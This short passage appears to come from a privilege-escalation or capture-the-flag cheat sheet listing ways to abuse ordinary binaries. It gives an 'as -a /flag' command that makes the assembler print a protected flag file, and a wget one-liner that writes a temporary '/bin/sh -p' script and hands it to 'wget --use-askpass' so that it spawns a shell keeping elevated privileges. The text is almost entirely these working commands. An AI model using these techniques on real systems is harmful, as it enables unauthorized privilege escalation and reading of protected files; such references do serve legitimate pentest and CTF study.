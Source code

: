 ```bash
as -a /flag
```

Passes the flag to the assembler to trigger readable output.


## wget

```bash
F=$(mktemp) && chmod +x $F && echo -e '#!/bin/sh -p\n/bin/sh -p 1>&0' >$F && wget --use-askpass=$F 0
```

Crafts a temporary shell script and abuses **`wget --use-askpass`**.


